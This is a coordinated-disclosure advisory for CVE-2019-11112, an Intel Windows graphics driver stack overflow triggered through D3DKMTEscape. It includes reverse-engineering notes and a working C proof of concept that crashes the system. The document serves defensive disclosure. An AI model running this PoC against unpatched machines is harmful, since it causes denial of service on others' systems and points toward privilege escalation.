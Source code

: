 # SSD Advisory – Intel Windows Graphics Driver Buffer Overflow to Privilege Escalation

## Vulnerability Summary
The igdkmd64 module in the Intel Graphics Driver DCH on Windows allows local users to gain Escalation of Privileges or cause Denial of Service (crash) via a crafted D3DKMTEscape request.

## CVE
CVE-2019-11112

## Credit
SSD Secure Disclosure / Ori Nimron

## Affected Systems
Tested on Intel Graphics Driver DCH 25.20.100.6323 and on 25.20.100.6577 (latest at the time of writing this report), on Windows 10 Version 1809.

## Vendor Response
Intel fixed the issue in versions 26.20.100.6813 and 26.20.100.6812 of the Intel(R) Graphics Driver. For more information see [2019.2 IPU](https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00242.html).

## Vulnerability Details
The driver’s callback function DxgkDdiEscape contains a memory corruption vulnerability that can be triggered by local users can trigger the vulnerability by crafting a malicious request to the D3DKMTEscape function.   
In DxgkDdiEscape, there is a global variable (which I named as “escape_jmp_table”) which is an array of pointers to functions. The function will choose which function to call based on the value of the third parameter of the privateDriverData value that is controlled by the local user.  
The structure of privateDriverData looks something like this:
``` c
typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[100];
} privateDriverData;
```

The DxgkDdiEscape will call to sub_14004FCE0 (which I will name it as ESCAPE_CONTINUE_TO_TABLE). The ESCAPE_CONTINUE_TO_TABLE will load the “escape_jmp_table” and will call the function to which escape_jmp_table[pPrivateDriverData.escape_jmp_table_index] points to.
![Ida 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-1.png)

The vulnerability discovered lies in the function being called by the pointer found by the value of the second index of the escape_jmp_table. This function (sub_140085E70) does a switch case on the fourth parameter of the privateDriverData and decides to which function to call by the value given.  
This image shows the various switch case handling this function (sub_140085E70) supports:
![Ida 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-2-1024x206.png)

In case that the value of the fourth parameter in the structure is 205, the function the sub_140092E80 will be called:
![Ida 3](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-3.png)

This function allocates a buffer on the stack and calls sub_1400AD9F0 with this buffer, I will name this buffer as local_buf:
![Ida 4](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-4.png)

The subsequent function sub_1400AD9F0 does a memcpy(pPrivateDriverData.buffer + 0xb, 0x200, localbuf + 0xb, 0x200).  
The memcpy is called with a fixed size, no checks on the pPrivateDriverData buffer size, which means that if pPrivateDriverData.buffer length is smaller than 0x200 + 0xb, an overflow will be triggered. This overflow can lead to Escalation of Privileges (by utilizing a null pointer dereference exploitation method) or local Denial of Service.
![Ida 5](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-5.png)

## Proof of Concept
The following PoC calls the D3DKMTEscape function with previously mentioned parameters that will trigger the vulnerable function and the system will crush due to security cookie check failure. The full code is in the Escape directory which contains a visual studio solution:

``` c
#define BUF_SIZE 100

static const char* intel = "Intel";

typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[BUF_SIZE];
} PrivateDriverData;

int main()
{
	int result = 0;
	DRIVER_INFO driverInfo = { 0 };
	D3DKMT_ESCAPE escapeObj = { 0 };
	PrivateDriverData data = { 0 };
	int status = initDriver(&driverInfo, intel);
	if (!NT_SUCCESS(status)) {
		printf("Could not initialize connection to driver");
		return -1;
	}
	printf("[+] Initialized driver\n");
	escapeObj.Type = D3DKMT_ESCAPE_DRIVERPRIVATE;
	escapeObj.hAdapter = driverInfo.hAdapter;
	escapeObj.hDevice = (D3DKMT_HANDLE)NULL;
	data.unknown1 = 'AAAA';
	data.unknown2 = 'BBBB';
	data.escape_jmp_table_index = 1;
	data.switchcase_index = 205; // vulnerable case
	memset(data.buffer, 'A', BUF_SIZE);

	escapeObj.pPrivateDriverData = (void*)&data;
	escapeObj.PrivateDriverDataSize = sizeof(data);
	status = D3DKMTEscape(&escapeObj); // Will not return, it will crash the system.
	if (!NT_SUCCESS(status)) {
		printf("[-] D3DKMTEscape failed (%x)", status);
	}
	getchar();
	return 0;
}
```

## Result in WinDbg
![WinDbg 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Windbg-1.png)
![WinDbg 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Windbg-2.png)

We can see in the above screenshot that a buffer overflow occurred, and the system crashes.
